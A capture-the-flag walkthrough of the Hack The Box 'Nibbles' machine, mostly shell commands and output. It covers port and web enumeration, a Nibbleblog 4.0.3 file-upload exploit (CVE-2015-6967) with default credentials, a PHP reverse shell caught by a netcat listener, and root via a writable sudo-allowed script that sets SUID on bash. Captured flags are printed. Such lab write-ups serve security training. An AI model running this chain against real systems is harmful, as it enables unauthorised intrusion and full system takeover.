


# Nibbles


```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.75 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-14 18:34 CET
Initiating SYN Stealth Scan at 18:34
Scanning 10.10.10.75 [65535 ports]
Discovered open port 22/tcp on 10.10.10.75
Discovered open port 80/tcp on 10.10.10.75
Completed SYN Stealth Scan at 18:34, 19.02s elapsed (65535 total ports)
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.074s latency).
Scanned at 2025-02-14 18:34:13 CET for 19s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.10 seconds
           Raw packets sent: 66940 (2.945MB) | Rcvd: 66949 (2.678MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.75
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p22,80 10.10.10.75 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-14 18:37 CET
Nmap scan report for 10.10.10.75
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.13 - 4.4, Linux 3.2 - 4.14, Linux 3.8 - 3.16
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   67.21 ms 10.10.16.1
2   40.66 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ whatweb http://10.10.10.75
http://10.10.10.75 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75]
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

```bash
❯ whatweb http://10.10.10.75/nibbleblog/
http://10.10.10.75/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]
```

<figure><figcaption></figcaption></figure>

```bash
❯ feroxbuster -u http://10.10.10.75/nibbleblog
                                                                                                                                                                                                                                     
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.75/nibbleblog
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
[>-------------------] - 1s         8/30002   2h      found:0       errors:0      
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_10_10_10_75_nibbleblog-1739555187.state ...
[>-------------------] - 1s         8/30002   2h      found:0       errors:0      
[--------------------] - 1s         0/30002   0/s     http://10.10.10.75/nibbleblog/                                                                                                                                                 ❯ feroxbuster -u http://10.10.10.75/nibbleblog/
                                                                                                                                                                                                                                     
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.75/nibbleblog/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        2l        6w       97c http://10.10.10.75/nibbleblog/content/private/tags.xml
200      GET        2l       50w     1936c http://10.10.10.75/nibbleblog/content/private/config.xml
200      GET        0l        0w        0c http://10.10.10.75/nibbleblog/content/private/keys.php
200      GET        2l       14w      431c http://10.10.10.75/nibbleblog/content/private/comments.xml
200      GET        2l       21w      325c http://10.10.10.75/nibbleblog/content/private/categories.xml
200      GET        2l       17w      503c http://10.10.10.75/nibbleblog/content/private/users.xml
200      GET        0l        0w        0c http://10.10.10.75/nibbleblog/content/private/shadow.php
```


```bash
❯ curl -s 'http://10.10.10.75/nibbleblog/content/private/users.xml'
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<users><user username="admin"><id type="integer">0</id><session_fail_count type="integer">0</session_fail_count><session_date type="integer">1739493766</session_date></user><blacklist type="string" ip="10.10.10.1"><date type="integer">1512964659</date><fail_count type="integer">1</fail_count></blacklist><blacklist type="string" ip="10.10.14.21"><date type="integer">1739490723</date><fail_count type="integer">1</fail_count></blacklist><blacklist type="string" ip="10.10.16.7"><date type="integer">1739555237</date><fail_count type="integer">1</fail_count></blacklist></users>
```


```bash
❯ dirsearch -u 'http://10.10.10.75/nibbleblog' -t 50 -i 200 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Nibbles/Nibbles/reports/http_10.10.10.75/_nibbleblog_25-02-14_18-55-19.txt

Target: http://10.10.10.75/

[18:55:19] Starting: nibbleblog/
[18:55:30] 200 -  606B  - /nibbleblog/admin.php
[18:55:30] 200 -  517B  - /nibbleblog/admin/
[18:55:31] 200 -  564B  - /nibbleblog/admin/js/tinymce/
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ curl -s 'http://10.10.10.75/nibbleblog/README' | head -n 5
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```


```bash
❯ searchsploit Nibbleblog
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                     |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                                                                                                             | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                                                                                                              | php/remote/38489.rb
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```





```bash
❯ git clone https://github.com/dix0nym/CVE-2015-6967; cd CVE-2015-6967
Clonando en 'CVE-2015-6967'...
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 7 (delta 0), reused 4 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (7/7), listo.
```


```bash
❯ cp /usr/share/webshells/php/php-reverse-shell.php .
```

<figure><figcaption></figcaption></figure>


```bash
❯ mv php-reverse-shell.php shell.php

❯ python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```


```bash
❯ curl -s -X GET 'http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php'
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.75] 54860
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:05:38 up 19:01,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
nibbler@Nibbles:/$ cat /home/nibbler/user.txt
cat /home/nibbler/user.txt
d08355b8d4cc751ed07534e3d22fab67
```


```bash
nibbler@Nibbles:/$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
nibbler@Nibbles:/$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```


```bash
nibbler@Nibbles:/home/nibbler$ ls -l
total 8
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Feb 13 18:04 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip  
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```


```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh

nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh | head -n 20
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using
```


```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh 
#!/bin/bash

chmod u+s /bin/bash 

nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 34 Feb 14 13:10 monitor.sh
```


```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
adc3c5445aeee3b8554a3b76b6ac8c13
```
